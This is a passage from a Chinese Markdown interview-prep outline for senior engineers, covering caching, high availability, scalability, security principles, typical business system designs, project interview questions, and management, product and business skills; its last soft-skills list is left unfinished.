- **缓存Cache**：本地缓存/分布式缓存区别，读写策略，关注缓存穿透/击穿/雪崩问题，关注BigKey/HotKey
- **消息队列MQ**：流量削峰/异步处理/应用耦合、消息可靠性/顺序性/唯一性（重试/幂等），关注消息延迟堆积监控
- **静态资源**：CDN加速，预加载策略 Preload，图片优化（格式webp/合并sprite/压缩/懒加载）

## 系统高可用

- **影响因素**：机房故障、网络抖动、计算/存储资源不够、代码bug、依赖系统问题、城市级不可抗地震水灾...
- **衡量指标**：可用性百分比（x个9），服务等级协议 SLA，MTBF&MTTR
- **分布式理论**：CAP/BASE理论，一致性协议Paxos/Raft/ZAB，选举策略和脑裂问题解决方案，对比etcd（Raft协议/简洁易维护/基于go云原生）/zookeeper（ZAB类Paxos协议/复杂难懂依赖多）
- **故障模式与影响分析 FMEA**：挖掘系统可用性隐患，业务功能/故障模式/影响范围/风险程度/解决措施/规划代办...
- **冗余架构**：同城双活（基础要求），两地三中心（评估ROI/功能分级/跨IDC数据同步方案）
- **业务隔离**：业务按重要性分级，基于业务/地域/编号做分SET部署和灰度发布，关注SET预留容量
- **快速故障转移**：客户端做失败重试，API网关做故障判定和转移，引入HA/健康心跳/长短连拨测策略
- **核心路径柔性降级**：偏产品策略，接口失败放过/补默认数据/用缓存数据/直播降码率...
- **运营保障**：例行全链路压测，混沌工程&容灾演练，特性开关做快速恢复，活动报备，值班巡检和SOP...

## 可扩展性

- **设计原则**：合适/简单/演进，模块高内聚低耦合，适当重构
- **分层架构**：用户层/接入层/逻辑层/基础层/存储层，明确各层职责，降低系统耦合度
- **微服务模块化**：基于DDD做服务模块拆分，变化/稳定分离，接口隔离，没跨模块数据层调用

## 系统安全

- **理论基础**：安全原则CIA 机密性/完整性/可用性，黄金法则 认证/授权/审计
- **密码学**：熟悉3种经典加密算法及场景，对称加密AES/非对称加密RSA/散列算法SHA256加盐（不可逆）
- **Web安全**：熟悉4类常见攻击 XSS/SQL/CSRF/SSRF，攻击原理/危害案例/防御方案
- **数据安全**：用户隐私类等敏感数据（手机号/身份证），全流程加密传输（https）和加密存储（AES）
- **云组件安全**：云账号拆细，关注弱密码和最小授权原则，定期云顾问安全扫描...
- **编码安全**：集成安全扫描门禁，关注明文秘钥/越权漏洞/高危组件/参数校验/日志审计...
- **黑灰产对抗**：提升黑产成本，业务侧条件限制/用户限频/链路鉴权/业务风控/机器学习，防误伤弹验证码...
- **业务安全**：清晰业务安全隐患点，关注账号安全/内容安全/支付安全/活动薅羊毛/防盗版/防欺诈/短信炸弹...

## 典型业务系统

- **接入系统**：用户长链管理 WebSockst，心跳保活机制 KeepAlive，了解运营商网络/跑马竞速/域名劫持/HTTPDNS等全网调度策略...
- **账号系统**：账号注册/登陆/验票/注销流程方案设计，OAuth2.0认证流程，账号安全策略，RBAC访问控制...
- **支付系统**：分布式事务解决方案，基于XA协议的2PC/补偿事务TCC/基于MQ的最终一致性（幂等重试/异步对账）/本地消息表（最大努力通知），行业解决方案Seate（AT/TCC/Saga/XA模式）...
- **消息IM系统**：了解单聊/群聊/在线状态/关系链/离线消息等IM方案设计，保证消息实时性/可靠性/时序性的优化策略
- **直播系统**：编解码技术（H.264/AVC），流媒体传输协议（WebRTC/RTMP/HLS），直播质量体系（QoE/QoS），直播指标优化（首帧/播放成功率/断开率/卡顿率等）...
- **资料系统**：多级缓存组件性能/持久化对比（DB/Redis/ES...），数据同步机制 DTS，数据一致性校验/修复...
- **活动运营**：搭建低代码业务引擎提效（营销/积分/任务/抽奖/发货...），灰黑产对抗和防薅羊毛
- **其他系统**：如推荐系统、广告系统、开放平台、数据仓库...

## 项目实战

- **项目介绍**：介绍下这个项目？
- **承担角色**：你在项目中担任什么角色？团队怎么分工协作？
- **业务数据**：关注哪些业务核心数据？具体数据是多少？
- **竞品分析**：当时项目在行业内竞品有哪些？你们有什么业务/技术竞争力？
- **技术难点**：这个项目有什么技术难点？你是怎么解决的？
- **选型对比**：项目每个技术难点的行业方案是怎么样的？有没有进行选型对比？
- **架构设计**：项目的系统架构和技术栈是怎么样的？每个点是否合理？
- **系统瓶颈**：当前系统的瓶颈在哪里？用户量/数据量扩大100倍能否支撑住？
- **海量高并发**：该项目你是怎么支持海量高并发的？
- **系统高可用**：该项目你是怎么做系统高可用的？
- **可扩展性**：该项目你是怎么提高系统可扩展性的？
- **系统安全**：整个项目的业务和系统安全你关注哪些方面？具体做了哪些保障措施？
- **运营成本**：项目运营成本由哪些构成？有哪些成本优化方案？
- **系统部署**：项目当时接入/逻辑/存储是怎么部署的？哪些城市？多少核心？是否合理？
- **依赖组件**：依赖哪些中间件？版本和配置是什么？对应单价是多少？
- **技术指标**：关注哪些系统技术核心指标？值是多少？有什么优化方案？
- **监控体系**：项目的监控体系是怎么搭建的？发现问题到问题恢复一般要多久？
- **故障机制**：发生过最大的故障是什么？怎么解决的？有什么经验总结？
- **用户反馈**：用户反馈流程是怎样的？日常反馈量和主要问题？客诉处理时间是多久？
- **用户体验**：团队关注产品的用户体验吗？日常是怎么做的？
- **项目总结**：再回头看，项目有哪些地方做得好的？哪些地方做得不好的？
- **未来规划**：后面项目的主要规划是什么？

# 综合素质篇（专家）

## 团队管理

- **团队管理**：聚焦3个核心 定目标/带人/做事，群策群力打胜战
- **管理误区**：团队缺乏方向，上级派活被动执行，全保全揽忙于救火，固守边界，看过程但拿不出结果...
- **制定目标**：制定合理的团队OKR，明确团队职责/充分上下级沟通/明确负责人和时限/结果可量化...
- **团队招聘**：明确团队招聘标准，基础扎实/项目经验/自驱力/聪明度/主动思考找解决方案
- **梯队建设**：团队各T人数比例，鼓励骨干own核心项目，关注后备leader选拔培养和适当授权
- **分工协作**：鼓励owner意识，扁平化管理和敏捷小分队机制，分工明确尽量稳定...
- **跨地域协作**：关注培养本地TL，模块任务尽量闭环，更高效和温度的远程会议
- **员工成长**：工作中树立标杆和实践精进，完善技术分享/导师机制/答辩辅导/团队文档/行业会议...
- **激励机制**：用好激励管理三板斧 绩效/调薪/晋级，公平透明的考核机制，公开及时的认可点赞...
- **氛围建设**：团建活动重在多交流互动，零食/聚餐/生日/周年/运动日...

## 产品思维

- **用户需求**：学会通过行业分析/市场调研/用户画像/用户调研和反馈等方法，明确产品的目标客群/解决痛点，知道帮助什么用户解决什么问题（成本/效率/利润/体验）
- **最小化可行产品**：善用MVP低成本快速试错（精益创业），只解决用户最基本需求，初期速度>体验
- **需求文档**：完整需求要有需求背景/痛点论证/成功指标/产品功能，事前思考清楚，规避需求变更
- **数据分析驱动**：数据埋点上报，掌握快速A/B测试，运用好数仓/热力图等工具做分析
- **数据指标**：用户漏斗模型（如获客/留存/转化），各渠道新增用户量，活跃用户量 DAU/MAU，次日/7日/30日留存率，付费金额/付费人数/付费转化率...
- **增长黑客**：对比传统花钱买量，更关注利用数据趋势分析和渠道营销技巧，实现病毒式增长
- **用户增长策略**：了解AARRR/RARRA/Growth Loops模型，获客拉新Acquisition 网站SEO/社交分享/大V合作/三方广告，留存Retention 丰富功能/体验优化/活动激励/多渠道触达...
- **盈利模式**：广告业务（CPT/CPM/CPC/CPA/oCPM），增值服务（购买站点付费内容/权益），交易抽佣（电商以及O2O等网站），平台分成（生态体系下收税，如苹果税）...

## 商业思维

- **宏观政策**：：掌握经济学基础知识，关注宏观经济走势和国家政策方针
- **金融市场**：：了解资本市场（一级/二级市场）运作机制，学习企业估值和投资理财，学会撰写商业计划书，了解企业从天使投资到IPO的融资流程
- **行业趋势**：：关注所在行业热点趋势和增长点，了解主流商业模式，学会撰写行业分析报告 
- **财务管理**：：了解财务知识，学会分析企业的IPO招股书和财务报表
- **产品设计**：：清楚产品价值主张，知道产品功能设计/定价/研发/体验/销售/售后等各流程关键点
- **市场营销**：：了解流量渠道，知道怎么做产品营销和获客，怎么做用户增长和留存
- **团队管理**：：学会搭建企业内部组织架构，通过招聘培训/薪酬绩效/晋升体系等来提升组织能力

## 职场软技能（doing）

- **结构化思维**：金字塔原理（思考/表达/解决问题），结论先行/突出重点/层次分明/逻辑清晰
- **问题分析和解决**：
- **高效沟通**：
- **快速学习**：
- **项目管理**：
- **时间管理**：
- **团队协作**：
